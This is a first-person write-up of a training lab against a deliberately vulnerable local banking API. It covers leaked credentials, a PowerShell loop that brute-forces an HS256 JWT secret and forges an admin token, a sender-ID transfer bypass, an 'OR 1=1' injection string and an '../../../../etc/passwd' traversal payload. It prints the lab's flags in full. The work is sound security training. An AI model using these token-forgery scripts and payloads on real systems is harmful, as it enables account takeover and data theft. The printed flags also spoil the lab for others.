# Inside AppkaPay: My Findings from Appkademiya’s Certified Offensive API Pentester \(COAP\)

Made and wrote by Austin BC

I tested Appkademiya’s AppkaPay REST API lab using Windows PowerShell and Docker, moving from exposed endpoints to JWT and authorization flaws, then source inspection\. Lab repository: https://github\.com/Appkademiya/Certified\-Offensive\-API\-Pentester\-COAP\-\.

Evidence labels separate HTTP responses captured in PowerShell \(“live API”\), code read through container administrator access \(“Docker source”\), and direct container file reads \(“Docker file”\)\. Source inspection does not establish endpoint exploitation, and uncaptured API responses are identified as such\.

## **Attack Techniques Covered**

The lab covered API reconnaissance, endpoint and HTTP method enumeration, information disclosure, and exposed credentials\. I tested JWT weaknesses through offline HS256 secret recovery, administrator token forgery, and an accepted unsigned alg none token\. Live requests also demonstrated a client\-controlled transfer source account, role mass assignment, and broken function\-level authorization \(BFLA\)\. Source inspection identified additional BOLA/IDOR conditions, an unauthenticated password reset, bulk user export, and weak wallet amount validation\. Other handlers implemented simulated SQL/NoSQL injection, path traversal, and server\-side request forgery \(SSRF\) triggers\. The administrative ping handler passed input into a shell command, although the final flag was obtained by a direct Docker file read rather than a captured API command execution response\.

## Docker came up, but the first clone URL didn’t work

The README’s first clone command failed with a repository not found error\. The working URL had an extra hyphen before \.git\. Once I corrected it, Docker pulled the Appkademiya image and started the API service\. The Docker Compose warning about an obsolete version attribute did not block deployment\. There was no browser interface to navigate, only JSON routes on port 3000, so I switched to direct HTTP requests\.

```
git clone https://github.com/Appkademiya/Certified-Offensive-API-Pentester-COAP.git
# Repository not found
git clone https://github.com/Appkademiya/Certified-Offensive-API-Pentester-COAP-.git
cd Certified-Offensive-API-Pentester-COAP-
docker compose up -d

```



**Clone failure, corrected URL, and running Docker service**

## The root response gave the first route

I opened http://localhost:3000/ first\. It returned an AppkaPay welcome object and pointed to /api/v1/docs\. Flag 1 was exposed in that JSON, not earned by bypassing anything\. This is plain information disclosure through an unauthenticated API response\. The flag shown in the source later resolves the exact spelling as FLAG\{w3lc0m3\_t0\_4ppk4p4y\}\.

```
curl.exe -i http://localhost:3000/

```

Flag 1: live API root response; exact text cross\-checked later against Docker source\.



**Root JSON response with **docs** hint and welcome flag**

## The docs endpoint exposed an intern login

The documentation route returned 200, leaked intern:intern\_password, and named /api/v1/health and /api/v2/beta/features\. I also tried /api/v1/openapi\.json, it returned 404\. That failed request mattered because a docs\-like route doesn’t mean a standard OpenAPI JSON file exists\. Flag 2 was in the docs response: FLAG\{sw4gg3r\_d0cs\_l34k3d\}\. This was unauthenticated documentation and credential exposure\.

```
curl.exe -i http://localhost:3000/api/v1/docs
curl.exe -i http://localhost:3000/api/v1/openapi.json

```

Flag 2: live API, HTTP 200 from docs\. OpenAPI JSON: HTTP 404\.



**Docs response with intern credentials; failed OpenAPI lookup**

## The disclosed internal routes worked without a token

I queried the two paths the docs gave us, both returned 200\. The health JSON had DB\_PASS set to FLAG\{h34lth\_3ndp01nt\_l34k\} \(Flag 3\)\. The beta endpoint returned FLAG\{h1dd3n\_v2\_4p1\_d1sc0v3r3d\} \(Flag 13\)\. I didn’t need to guess those paths or authenticate\. The weaknesses are sensitive health\-check content and an exposed undocumented versioned route\.

```
curl.exe -i http://localhost:3000/api/v1/health
curl.exe -i http://localhost:3000/api/v2/beta/features

```

Flags 3 and 13: live API responses, not inferred from answer choices\.



**Health and beta API responses returning both flags**

## Login worked after PowerShell mangled the first JSON body

The first curl\.exe POST returned 400 and an Express JSON SyntaxError\. Single\-quote JSON quoting in Windows PowerShell didn’t arrive the way the API expected\. I rebuilt the body with ConvertTo\-Json and sent Invoke\-RestMethod instead\. That returned an intern JWT\. The valid login itself wasn’t a bypass; the exposed credentials were the preceding weakness\.

```
curl.exe -i -X POST http://localhost:3000/api/v1/auth/login -H "Content-Type: application/json" -d '{"username":"intern","password":"intern_password"}'
$body = @{ username = "intern"; password = "intern_password" } | ConvertTo-Json
$response = Invoke-RestMethod -Uri "http://localhost:3000/api/v1/auth/login" -Method Post -ContentType "application/json" -Body $body
$token = $response.token

```

Login: live API; initial curl request failed, Invoke\-RestMethod succeeded\.



**400 JSON parsing error followed by a successful JWT response**

## The JWT was HS256, signed with a predictable word

I decoded the header and payload locally\. They showed alg HS256 and intern/id 3/role user\. The first crack script was written to crack\_jwt\.py, but Windows couldn’t find Python\. I didn’t install anything, I reproduced the HMAC\-SHA256 signature check in PowerShell\. The candidate appkapay matched the signature\. I then signed a new payload as admin/id 1; the vault accepted it and returned Flag 8, FLAG\{jwt\_w34k\_s3cr3t\_cr4ck3d\}\. This is weak JWT secret management, followed by forged authorization claims\.

```
$parts = $token.Split('.')
# Decode base64url header and payload; showed HS256 and intern user
# Attempt: python crack_jwt.py $token
# Result: Python was not found
$message = "$($parts[0]).$($parts[1])"
$signature = $parts[2]
foreach ($secret in @('secret','password','123456','admin','jwt_secret','jwtsecret','secret123','supersecret','supersecretkey','appkapay','appkapay_secret','appkapay_secret_key','mysecret','intern_password','development','dev_secret','your-256-bit-secret')) {
  $hmac = [System.Security.Cryptography.HMACSHA256]::new([Text.Encoding]::UTF8.GetBytes($secret))
  $hash = $hmac.ComputeHash([Text.Encoding]::UTF8.GetBytes($message))
  $encoded = [Convert]::ToBase64String($hash).TrimEnd('=').Replace('+','-').Replace('/','_')
  $hmac.Dispose()
  if ($encoded -ceq $signature) { Write-Host "JWT SECRET FOUND: $secret"; break }
}
$secret='appkapay'; $header='{"alg":"HS256","typ":"JWT"}'
$payload='{"id":1,"username":"admin","role":"admin","iat":1793306054}'
function ConvertTo-Base64Url($bytes) { [Convert]::ToBase64String($bytes).TrimEnd('=').Replace('+','-').Replace('/','_') }
$data="$(ConvertTo-Base64Url ([Text.Encoding]::UTF8.GetBytes($header))).$(ConvertTo-Base64Url ([Text.Encoding]::UTF8.GetBytes($payload)))"
$hmac=[System.Security.Cryptography.HMACSHA256]::new([Text.Encoding]::UTF8.GetBytes($secret))
$adminToken="$data.$(ConvertTo-Base64Url ($hmac.ComputeHash([Text.Encoding]::UTF8.GetBytes($data))))"
$hmac.Dispose()
curl.exe -i http://localhost:3000/api/v1/admin/vault -H "Authorization: Bearer $adminToken"

```

Flag 8: live API vault response after PowerShell signature cracking and JWT forgery\.



**Weak HS256 secret recovered as appkapay**



**Forged administrator token granted access to the vault and returned Flag 8**

## The transfer path guess was wrong, so I inspected the container

I tried OPTIONS and GET on /api/v1/transfers\. Both returned 404\. Rather than keep guessing paths, I used Docker host administrator access to list /usr/src/app and inspect server\.js\. This was source\-assisted testing, not black\-box discovery\. The route list showed POST /api/v1/transfer, singular\. The grep also surfaced profile and wallet flags in source before I reached those exercises\. I did not treat those as live API captures\.

```
curl.exe -i -X OPTIONS http://localhost:3000/api/v1/transfers
curl.exe -i http://localhost:3000/api/v1/transfers -H "Authorization: Bearer $token"
docker exec certified-offensive-api-pentester-coap--coap-api-1 ls /usr/src/app
docker exec certified-offensive-api-pentester-coap--coap-api-1 grep -nE "app\.(get|post|put|patch|delete)|router\.(get|post|put|patch|delete)" /usr/src/app/server.js
docker exec certified-offensive-api-pentester-coap--coap-api-1 grep -niE "transfer|sender|recipient|fromAccount|toAccount|balance" /usr/src/app/server.js

```

The first route guesses failed; Docker source exposed the actual route names and handler conditions\.



**Both /transfers guesses returned 404**



**Route list and source inspection revealed /transfer and embedded flag literals**

## The transfer handler trusted the sender ID

The handler explicitly checked from\_account === 2 and to\_account === req\.user\.id, with no account ownership enforcement\. I stayed authenticated as the intern \(id 3\), set the sender to the CEO \(id 2\), and sent amount 100\. The API returned success True and Flag 7, FLAG\{b0l4\_f1n4nc14l\_th3ft\}\. It demonstrated BOLA in a transaction action\. The response didn’t prove the in\-memory balances actually changed\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '125,150p' /usr/src/app/server.js
$body = @{from_account=2;to_account=3;amount=100} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/transfer' -Method Post -Headers @{Authorization="Bearer $token"} -ContentType 'application/json' -Body $body

```

Flag 7: live API after source\-assisted discovery\.



**Transfer handler shows a client\-controlled from\_account check**



**BOLA transfer request returned success and Flag 7**

## The user and transaction ID handlers lacked ownership checks

The user profile handler accepted a numeric ID in the URL without checking whether the requester owned that profile\. The CEO bio containing FLAG\{1d0r\_c30\_pr0f1l3\_r34d\} \(Flag 5\) was visible in Docker source\. I discussed GET /api/v1/users/2, but there is no captured response for that request in the supplied evidence\. Likewise, the hardcoded transaction 9999 and FLAG\{1d0r\_s3cr30t\_tr4ns4ct10n\} \(Flag 6\) were visible in source\. The corresponding GET request was proposed, but its runtime result was not captured\. Both findings are supported by source inspection rather than live API responses\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '115,148p' /usr/src/app/server.js
# Requested test, but no returned output was supplied:
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/users/2' -Headers @{Authorization="Bearer $token"}
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/transactions/9999' -Headers @{Authorization="Bearer $token"}

```

Flags 5 and 6: Docker source only in the available record\.


**Source listing identifies the user and transaction IDOR handlers**

## The administrative ping GET revealed its own diagnostic flag

With the forged administrator JWT, I sent GET /api/v1/admin/system/ping\. The response instructed me to POST an ip parameter and included FLAG\{4dm1n\_p1ng\_3ndp01nt\} \(Flag 19\)\. This was a live API disclosure that provided a specific lead for later command injection testing\.

```
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/system/ping' -Method Get -Headers @{Authorization="Bearer $adminToken"}

```

Flag 19: live API\.



**Ping reconnaissance returned instructions and Flag 19**

## The search endpoint’s injection was deliberately simulated

Inspecting lines 220 to 235 of server\.js showed POST /api/v1/search and a check for query\.includes\('OR 1=1'\) or a JSON $gt pattern\. The handler returned FLAG\{sqli\_4uth\_byp4ss\_j50n\} \(Flag 18\)\. I prepared a PowerShell request with a tautology, but no HTTP output was captured\. The handler used a simulated SQL/NoSQL injection trigger; the evidence does not show a database query being altered\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '220,235p' /usr/src/app/server.js
$body = @{query="' OR 1=1 --"} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/search' -Method Post -ContentType 'application/json' -Body $body

```

Flag 18: Docker source confirmed; HTTP test response not captured\.



**Search handler checks literal injection patterns and embeds Flag 18**

## The logging endpoint checked traversal syntax, not a file read

I inspected POST /api/v1/admin/logs in server\.js\. When file contained \.\./, the handler returned a hardcoded passwd\-like string and FLAG\{p4th\_tr4v3rs4l\_l0gs\} \(Flag 15\)\. I prepared a request with \.\./\.\./\.\./\.\./etc/passwd, but no HTTP response was captured\. The handler demonstrated a simulated path traversal condition and insufficient path validation, not a proven read of /etc/passwd from disk\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '205,220p' /usr/src/app/server.js
$body = @{file='../../../../etc/passwd'} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/logs' -Method Post -Headers @{Authorization="Bearer $adminToken"} -ContentType 'application/json' -Body $body

```

